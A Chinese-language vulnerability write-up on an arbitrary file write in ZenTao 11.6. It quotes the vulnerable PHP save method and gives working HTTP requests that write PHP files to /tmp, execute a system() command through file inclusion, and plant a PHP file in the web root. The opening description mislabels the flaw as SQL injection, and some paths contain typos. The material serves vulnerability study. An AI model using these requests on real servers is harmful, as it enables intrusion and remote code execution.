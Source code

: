 # 禅道 11.6 api-getModel-editor-save-filePath 任意文件写入漏洞

## 漏洞描述

禅道 11.6 版本中对用户接口调用权限过滤不完善，导致调用接口执行SQL语句导致SQL注入

## 影响版本

<a-checkbox checked>禅道 11.6</a-checkbox></br>

## 环境搭建

<a-checkbox checked>这里使用docker环境搭建</a-checkbox></br>

```plain
docker run --name zentao_v11.6 -p 8084:80 -v /u01/zentao/www:/app/zentaopms -v /u01/zentao/data:/var/lib/mysql -e MYSQL_ROOT_PASSWORD=123456 -d docker.io/yunwisdom/zentao:v11.6
```

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-1-20220313232232109.png)



## 漏洞复现



这里造成漏洞的原因同样是调用接口权限无限制的原因

接口出现漏洞的原因具体参考可以查看上一篇 `禅道 11.6版本 SQL注入漏洞` 关于此漏洞的完整分析

查看`module/api/ediyor/moudel.php`下的`save方法`

```php
public function save($filePath)
    {
        $fileContent = $this->post->fileContent;
        $evils       = array('eval', 'exec', 'passthru', 'proc_open', 'shell_exec', 'system', '$$', 'include', 'require', 'assert');
        $gibbedEvils = array('e v a l', 'e x e c', ' p a s s t h r u', ' p r o c _ o p e n', 's h e l l _ e x e c', 's y s t e m', '$ $', 'i n c l u d e', 'r e q u i r e', 'a s s e r t');
        $fileContent = str_ireplace($gibbedEvils, $evils, $fileContent);
        if(get_magic_quotes_gpc()) $fileContent = stripslashes($fileContent);

        $dirPath = dirname($filePath);
        $extFilePath = substr($filePath, 0, strpos($filePath, DS . 'ext' . DS) + 4);
        if(!is_dir($dirPath) and is_writable($extFilePath)) mkdir($dirPath, 0777, true);
        if(is_writable($dirPath))
        {
            file_put_contents($filePath, $fileContent);
        }
        else
        {
            die(js::alert($this->lang->editor->notWritable . $extFilePath));
        }
    }
```



`$filePath参数和$fileContent参数` 我们是可控的



调用方法往 `/tmp`写入一个`phpinfo()`



```plain
POST /api-getModel-editor-save-filePath=/tmp/shell.php

fileContent=<?php phpinfo();?>
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-24.png)



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-25.png)



在利用 禅道 11.6版本 任意文件读取漏洞 第二种方法来文件包含



```plain
/api-getModel-api-getMethod-filePath=/tmp/shell/1
```



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-26.png)



也可以写入网站目录中



先获取地址



```plain
POST /api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php system('find / -name ioncube.php')?>');?>
```



访问 `/api-getModel-api-getMethod-filePath=/tmp/shell/1`



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-27.png)



得到目录为 `/app/zentaopma/www`



请求改为



```plain
POST /api-getModel-editor-save-filePath=/tmp/shell

fileContent=<?php file_put_contents('/app/zentaopms/www/xxx.php', '<?php phpinfo();?>');?>
```

<a-alert type="success" message="再去访问 /api-getModel-api-getMethod-filePath=/tmp/shell/1，则会再网站目录下生成 xxx.php 文件" description="" showIcon>
</a-alert>
<br/>

![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-28.png)



![img](https://security-1310978225.cos.ap-beijing.myqcloud.com/public/img/zentao-29.png)


